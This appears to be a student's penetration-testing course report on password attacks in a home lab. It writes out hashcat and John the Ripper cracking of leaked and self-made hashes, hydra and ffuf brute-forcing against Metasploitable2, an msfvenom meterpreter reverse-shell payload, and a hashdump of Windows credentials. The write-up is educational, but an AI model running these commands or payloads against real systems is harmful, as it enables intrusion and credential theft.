This is a report for the penetration testing cource taught by Tero Karvinen
Passwords
To start simple i wanted to compare the diffrence in the performance between my kali vm and my windows host. To do this i had to download hashcat for windows by downloading hashcat binaries from here. I navigated to the hashcat folder and ran the benchmark by running “.\hashcat64.exe -b”. Comparing the results it is obvious that cracking hashes using my GPU is much much faster. The essential part here is the hashes per second(H/s) so for MD5 my gpu managed to get over 11,000,000,000 hashes per second while my kali VM only got a bit over 380,000,000.

I wanted to try playing around with password rules so i needed many hashes to play around with. I had seen a few sites using leaked password hashes from battlefield heroes as an example so i downloaded the hash dump from here. These passwords were leaked in 2011 according to https://haveibeenpwned.com/ and most of them have been cracked a long time ago so i dont think anyone will mind if i take a crack at it.
I extracted the hash dump into a folder i called hashes bore starting. To figure out what “mode” i had to use for these MD5 hashes i could have run “.\hashcat64.exe --example-hashes” or “.\hashcat64.exe -h” but i find it easier to just look at the examples on hashcats website over here.
So the hashmode for MD5 was "0" so i specified it with the -m flag in the following command and added the -w flag to set the workload to 4 (Nightmare).
.\hashcat64.exe -m 0 -w 4 .\hashes\bfield.hash .\rockyou.txt
 
For some reason despite using 100% of my GPU in the benchmark hashcat didnt seem to use more than 12% when actually cracking these hashes. It did manage to use about 80% of my CPU though and despite the issues it managed to crack almost 120,000 hashes with the classic rockyou list so it worked out just fine. My understanding is that all of the craked hashes are stored in a “potfile” and to save these results i ran the following command.
.\hashcat64.exe --show -o cracked .\hashes\bfield.hash
The --show flag lets me see all the cracked hashes in a file and -o lets me choose an outfile for all of the results. To read a file in powershell i used “gc” which i believe is an alias for “Get-Content”. I'll add a screenshot of some of the cracked hashes here.

Now that i got a baseline to work with i wanted to see how many more hashes i could crack by using rules. What these rules are is like mutations for an existing list. For example you could make a copy of every password in a list and capitalize all letters. By implementing some rules to a wordlist i should get even more cracked passwords. I started by just using the “best64.rule” on the rockyou passwordlist but it created a 2gb file out of the original 133mb wordlist and i didnt want to start a long session yet so i wanted to create my own rules for now. Before i move on i need to mention that this 2gb file turned out to be just full of errors because i didnt think i needed to add “--stdout” when directing to a file. Command to create a new wordlist using a rule file:
“.\hashcat64.exe -r .\rules\best64.rule --stdout .\rockyou.txt > rockyou2.txt”
To create my own rule file i looked at the existing rules and read the documentation on hashcats site here. I created a very simple rule file that first does nothing to a word then appends “2011” to a word because thats the year the passwords were leaked. Some other things i added were lowercase all letters, uppercase all letters, uppercase only first letter while lowercasing the rest and the last one is invert capitalization. All the documentation for these can be found on hashcats website in the link i provided earlier. To make sure my rules work i used the following command that uses my rule file on the rockyou list and outputs the results on screen.
.\hashcat64.exe -r .\rules\heiskane.rule --stdout .\rockyou.txt
I didnt look when i started creating my new wordlist but i think it took about 30-60 minutes but when i tried to use my new wordlist i got an error saying “Byte Order Mark (BOM) was detected”. So it seems that hashcat doesnt like UTF-16LE so i used my ubuntu terminal within windows to run “dos2unix” with the -f flag to force on my wordlist to ascii text and that fixed the issue and let me use it to crack some hashes.

For some weird reason it only took 10 seconds this time and cracked 70,000 more hashes while being much faster as well. This behaviour seems odd since i have 100 million passwords in my wordlist this time. Either way it seems to have worked and cracked 45% of the hashes instead 28% that i got earlier all because of a few simple rules to the wordlist. Also when i created my wordlist using my rules the file ended up being 2,35gb but running dos2unix on it which converts it from UTF-16LE to ASCII it shrunk to 1gb. I assume its because ascii uses half of the bytes UTF-16 does.
 
To create the new wordlist using best64.rule it took several hours to complete and i ended up with about 8gb file. Somehow after running “dos2unix -f” on it made the file bigger (10gb) and actually using that new wordlist didnt give me any new passwords which was very dissapointing.

Either way i wanted to crack more so i decided to finish this with a pure brute force attack using the -a flag to choose attack mode 3 which is the pure bureforce. This finally used most of the power my gpu has to offer and has currently cracked over 64% of the hashes and is still running. I paused hashcat at some point to see the speeds i was getting and it showed over 3000 MH/s so it seems to be going really fast.
 
After leaving hashcat running all day while i worked on something else it managed to crack 75% of the hashes (all sessions combined).

Again to finally save all the results to a file i used --show flag to grab the results and -o flag to throw the results in an outfile.
.\hashcat64.exe --show .\hashes\bfield.hash -o cracked3.txt
To give John the ripper a shot i used ubuntu 18.04 terminal installed within my windows machine. This can be done my downloading ubuntu from the microsoft store then enabling developer mode and “windows subsystems for linux”. Ill link a guide for that over here. To install john i downloaded the jumbo release from here.
I had to also update and upgrade my ubuntu and apt install libssl-dev, make and gcc. Then after navigating to the src directory in johns folder running “sudo ./configure && sudo make” installed john.
What i wanted to do with john is cracking an encrypted ssh key which i have done before. First i had to create an encrypted ssh key with the "ssh-keygen" command and by supplying the passphrase when asked to do so. I remembered that i had to convert the ssh key to something john can understand with ssh2john.py but after failing to make it work i found this hady guide that explained that i had to use sshng2john.py instead because i had the jumbo version of john.
I downloaded sshng2john.py from this link i found in the guide i mentioned. I used the following command to convert the ssh key for john:
sudo python sshng2john.py ~/.ssh/id_rsa > ~/crackme
Next according to the guide i had to delete the first line in the output file and make sure the rest of the content was all the way in the top of the file. Now that i got a file that john can work with i ran john with sudo and specified my wordlist with “--wordlist=path/to/wordlist” and gave it the file with the crackable ssh key. After a few seconds john managed to crack my super secure passphrase “password123” which i viewed with the "--show" flag just like in hashcat. One other thing i want to explore if i have time is cracking password protected zip files which should work the same way this did but for zip files there is zip2john script.

I took a peek at zip2john by first encrypting a dummy file with "zip --encrypt outfile infile". After using zip2john on my password protected zip file and trying to crack it i found out that for whatever reason my version of john doesnt have PKZIP-format available so to get this done quickly i fired up my kali and tried again there.
 
One problem i had on my kali was that the command "john" was not found for some reason. This was easily fixed my adding /usr/sbin to my path with the following command:
export PATH=$PATH:/usr/sbin
After doing this i packed some image "asd.png" i had lying around and encrypted it the same way as before. This time john had no problem cracking the password.

To try attacking ssh i used hydra and targeted metasploitable2. To specify username i used the “-l” flag and to specify wordlist i used “-P” flag. For this test i used rockyou.txt and set the threads to 20 with the “-t” flag then set the target as ssh://target_ip like this:
hydra -l klog -P Documents/htb/rockyou.txt -t 20 ssh://10.0.2.9

I targeted the user "klog" on the metasploitable2 box and got the password fairly quickly.
To try and hack a login form i wanted to try ffuf and use it against a dummy target like metasploitable2. Metasploitable had a handy DVWA page with admin:password credentials for me to practise on. I ended up with a very long command but ill try to go over it a bit. I did a lot of troubleshooting by running the requests through burp so thats what the -x flag is doing there. Looking at the request to login i saw it was a POST request so i defined that with the -X flag and copied the data from the request then swapped the password for the word FUZZ which is where ffuf will be putting the passwords it tries. The -u of course specifies the URL in the command. After some troubleshooting and remembering my previous experience i realized i have to add the content type header with -H flag and the cookies with the -b flag. Because i was looking a bit at the requests it was making in burp i noticed it was always redirecting so i added -r flag to follow redirects then -fl flag to filter by amount ot lines in response since all the wrong passwords seemed to give a response with 66 lines. Finally after figuring out the command if found the password.
Full command i used:
./ffuf -v -r -x http://127.0.0.1:8081 -w ~/Documents/htb/rockyou.txt -X POST -b 'security=low; PHPSESSID=1c3f0f4064329fa5fa3be61c2fed7d0a' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=admin&password=FUZZ&Login=Login' -u http://10.0.2.9/dvwa/login.php

There was some optional homework to code my own fuzzer but due to time constraints i didnt do that this time but ive already done that for some of the homework i had previously done over here.
To try password gathering tools like meterpreter hashdump for lateral movement i installed a Windows 10 virtual machine and fully updated it. I also wanted to play around with commando vm so i took a snapshot of the fresh Windows 10 and installed commando vm according to the guide on the github page here. After several hours the commando vm was finally installed so now to create a dummy target i cloned the previous snapshot i took of the fresh windows. To make sure this will actually work i had to disable all the Windows Defender stuff on my target. Since my goal was just to learn to use the password gathering methods for lateral movement i will leave the AV evasion for another day.

To create my payload i used msfvenom in kali linux within my commando vm with the following command.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.2.12 LPORT=9001 -f exe > shell.exe
This creates a reverse tcp payload for windows with the specified host, port and file type. To get my payload on the target i set up a python server on my commando and used Invoke-WebRequest in powershell on the target machine to download the payload.

To setup a listener i used the multi/handler like i had done in my previous homework. To get a session on the taget i just executed my payload as admin. I know this is much more convinient than an actual scenario would be but this is all just to practise using these tools.
 
Actually trying to run the hashdump module gives an error saying that hashdump requires SYSTEM user context and hints that i should migrate into a service process.

To do this i started by running the “ps” command to list processes and decided to target svchost.exe since it is running as NT AUTHORITY/SYSTEM.

Migrating to a process in meterpreter is done with the “migrate” command followed by the target PID. Seeing that my migration was successful i ran the hashdump module again and got all the hashes from the target.

After reading a bit about windows hashes it seems that the first part is (obviously) the username, second one is some kind of user id, third is the LM hash and last is the NTLM hash that seems to be the actual password. To throw these into hashcat on my host i put them into a file as user:NTML-hash and used the “--username” flag so hashcat understands that the first part is the username and will show the usernames for the cracked hashes when “--show” flag is used.
 
As seen in the image hashcat went through rockyou.txt in a second and got my super secure password “salasana”. Rest of the hashes seems to be some empy/nonsense stuff that i will look into later.
Atfer playing around with meterpreter mimikatz and failing to make it dump password hashes i found the best feature shown in this guide.
I ablosutely had to try this so i downloaded Windows XP minesweeper from this shady site. After failing to make it work a few times i tried just renaming the minesweeper executable to winmine.exe since it was the name in the command and it worked! Best feature 5/5. Also meterpreter mimikatz doesnt seem to work as expected and is in french for whatever reason.
The command for the minesweeper thing: mimikatz_command -f winmine::infos
Note that mimikatz has to loaded with “load mimikatz” command first.

To look into mirai i had to look up some information on it since there was lots of code and i have no experience in C code at the moment. Interesting enough the essential part of why it worked it simply the fact that all of these IoT deices had weak credentials. Mirai had about 60 credentials that it tried to use to login to these devices and from what i read it had up to 400,000 devices in its botnet at some point so trying default credentials seems much more effective than i thought. One other similar type of malware that i read about recently is Kaiji. It seems to rely on brute-force attacks against linux based servers and IoT devices with ssh. https://www.zdnet.com/article/new-kaiji-malware-targets-iot-devices-via-ssh-brute-force-attacks/
